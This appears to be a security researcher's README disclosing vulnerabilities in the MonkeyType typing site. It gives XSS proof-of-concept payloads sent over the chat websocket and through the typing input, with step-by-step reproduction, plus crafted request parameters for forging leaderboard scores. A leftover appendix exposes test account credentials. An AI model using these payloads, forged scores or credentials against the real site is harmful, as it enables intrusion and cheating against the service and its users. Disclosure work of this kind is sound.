

```
                                                          .="=.
                                                      _/.-.-.\_     _
                                                      ( ( o o ) )    ))
                                                      |/  "  \|    //
                                      .-------.        \'---'/    //
                                      _|~~ ~~  |_       /`"""`\\  ((
                                  =(_|_______|_)=    / /_,_\ \\  \\
                                      |:::::::::|      \_\\_'__/ \  ))
                                      |:::::::[]|       /`  /`~\  |//
                                      |o=======.|      /   /    \  /
                                      `"""""""""`  ,--`,--'\/\    /
                                                  '-- "--'  '--'
                                          Exploit By: Tyler Butler 
```


# Monkey-see-Monkey-do
This repository contains Tyler Butler's vulnerability research on MonkeyType, a popular typing test website with a growing online community. The research includes 3 cross-site scripting vulnerabilities and two PoC utility exploits, `monkey-see.py` and `monkey-do.py`. Monkey-see is a python program for spoofing leaderboard scores, and monkey-do is a python program for creating XSS payloaded usernames.


- [Monkey-see-Monkey-do](#monkey-see-monkey-do)
- [Identified Vulnerabilities](#identified-vulnerabilities)
  - [Stored Cross-Site Scripting (XSS) via Tribe Chat](#stored-cross-site-scripting-xss-via-tribe-chat)
    - [Overview](#overview)
    - [Payload](#payload)
    - [To Reproduce](#to-reproduce)
    - [Vulnerable Components](#vulnerable-components)
  - [UNCONFIRMED Stored Cross-Site Scriting (XSS) via Leaderboard](#unconfirmed-stored-cross-site-scriting-xss-via-leaderboard)
    - [Vulnerable Components](#vulnerable-components-1)
  - [Self Cross Site Scripting (XSS) via Word History #1348](#self-cross-site-scripting-xss-via-word-history-1348)
    - [Overview](#overview-1)
    - [Reproduce](#reproduce)
- [MonkeySee](#monkeysee)
  - [What is it?](#what-is-it)
  - [How does it Work?](#how-does-it-work)
    - [Appendix, to remove](#appendix-to-remove)


# Identified Vulnerabilities
## Stored Cross-Site Scripting (XSS) via Tribe Chat 


### Overview

The MonkeyType Tribe chat at https://dev.monkeytype.com/tribe is vulnerable to stored cross-site scripting through user comments. To inject XSS payloads, malicious users can enter a non-xss string in the chat field and send it to web server, then capture the web socket traffic and modify the input to a XSS payload.

### Payload   

In this example, I used an `onclick` payload to demonstrate the capability.

```
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


### To Reproduce

+ Configure [BurpSuite](https://portswigger.net/burp) to intercept browser traffic
+ Navigate to https://dev.monkeytype.com/tribe
+ Click on "create room"
+ Turn on BurpSuite proxy interception
+ Enter a new chat string
+ Intercept the web socket traffic, and chang the chat string to an XSS payload, example below.

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


### Vulnerable Components


## UNCONFIRMED Stored Cross-Site Scriting (XSS) via Leaderboard 

### Vulnerable Components 

The root cause of the stored XSS vulnerability is the method for which firebase data is input into the leaderboards table. On line [126](https://github.com/Miodec/monkeytype/blob/974088926fbe42de1c7c82a1a8902a103c18b91f/src/js/elements/leaderboards.js#L126) in leaderboard.js, 


```html
$("#leaderboardsWrapper table.daily tbody").append(`
          <tr>
          <td>${
            dindex === 0 ? '<i class="fas fa-fw fa-crown"></i>' : dindex + 1
          }</td>
          <td ${meClassString}>${entry.name}</td>
          <td class="alignRight">${entry.wpm.toFixed(
            2
          )}<br><div class="sub">${entry.acc.toFixed(2)}%</div></td>
          <td class="alignRight">${entry.raw.toFixed(2)}<br><div class="sub">${
            entry.consistency === "-" ? "-" : entry.consistency.toFixed(2) + "%"
          }</div></td>
          <td class="alignRight">${entry.mode}<br><div class="sub">${
            entry.mode2
          }</div></td>
          <td class="alignRight">${moment(entry.timestamp).format(
            "DD MMM YYYY"
          )}<br><div class='sub'>${moment(entry.timestamp).format(
            "HH:mm"
          )}</div></td>
        </tr>
```

## Self Cross Site Scripting (XSS) via Word History #1348

### Overview   

User input is interpreted by the browser unsanitized when entered into the typing challenge. Once the challenge is over and the user opens the "word history" tab, hovering over the mispelled words will cause the browser to interpret the payload as valid injected code. Under current limitations significant code execution cannot be caused due to character limit, however more research should be done to prove impact. This occurs in default settings.

### Reproduce 

For a XSS payload, just start typing this "><svg/onclick=alert1`>

+  Start a new typing challenge
+  Spell the first word correctly, then immediately after the first word and with no spaces after, terminate the string with ">
+  Enter payload
+  Once the timer is complete, select the option to view word history
+  Hover over the misspelled word, and the payload will execute


# MonkeySee 
*Leaderboard Spoofing Exploit*

## What is it? 
Monkey See is a quick proof of concept to show how any user can enter the daily and global leaderboards of [MonkeyType](https://monkeytype.com) by sending carefully crafted post requests to the firebase server. 

## How does it Work?  

Monkey see works by creating a new post request and changes the `wpm`, `rawwpm`, `correctChars`, `incorrectChars`, and `allChars` parameters. Back-end logic checks to make sure that the wpm matches the total number of correctChars, so it's important to keep these consistent. For example, to create a new score with 195 words per minuet, the following parameters were used.

**Mode 15**

```json
"wpm":195.17,
"rawWpm":195.17,
"correctChars":242,
"incorrectChars":1,
"allChars":243,
```

**Mode 60**

```json
"wpm":190.79,
"rawWpm":191.79,
"correctChars":950,
"incorrectChars":0,
"allChars":950,
```


"wpm":195.17,"rawWpm":195.17,"correctChars":242,"incorrectChars":1,"allChars":243,
"wpm":*,"rawWpm":*,"correctChars":*,"incorrectChars":*,"allChars":*,





 


### Appendix, to remove


User account
+ username: pwn2win
+ password: echoTRAIN2win
+ email: foo@sharklasers.com


monkeysee
monkeysee@sharklasers.com
echoTRAIN2win


dev-monketype.com

foo
echoTRAIN2win
